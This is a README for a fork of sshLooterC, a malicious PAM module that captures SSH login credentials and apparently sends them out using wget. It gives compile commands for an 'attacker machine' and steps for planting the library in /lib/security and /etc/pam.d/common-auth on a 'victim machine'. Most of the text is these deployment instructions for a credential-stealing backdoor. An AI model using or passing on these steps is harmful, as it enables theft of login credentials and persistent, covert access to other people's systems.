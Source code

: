 # sshLooterC forked

<a href="https://github.com/mthbernardes/sshLooterC">https://github.com/mthbernardes/sshLooterC</a>

# Changes from the original project
* Removed libcurl4-openssl-dev dependency, now using <b>system("wget ...")</b>
* Compiled for 32bit arch on a 64bit system, you need to install <b>gcc-multilib</b> on the attacker machine
* I coded <b>callLooter.c</b> to test the library before installation on the target


# Dependencies
* PAM dev library: <b>libpam0g-dev</b>
* [Optional] To compile the program for 32bit arch you need to install <b>gcc-multilib</b> on a 64bit system

# Compilation
`gcc callLooter.c -o callLooter -m32 -ldl`
 `gcc -m32 -Werror -Wall -fPIC -shared -o looter.so looter2.c`
The m32 switch is optional and allows to compile the files for a 32bit victim on a 64bit attacker machine

# Usage
Copy the <b>looter.so</b> to victim machine on <b>/lib/security</b>, then append to <b>/etc/pam.d/common-auth</b>the following lines:
`auth optional looter.so`
`account optional looter.so`

# Credits
<a href="https://mthbernardes.github.io/persistence/2018/02/10/stealing-ssh-credentials-another-approach.html" target="_blank">Stealing SSH credentials Another Approach.</a>
<br/>
Thank you

 
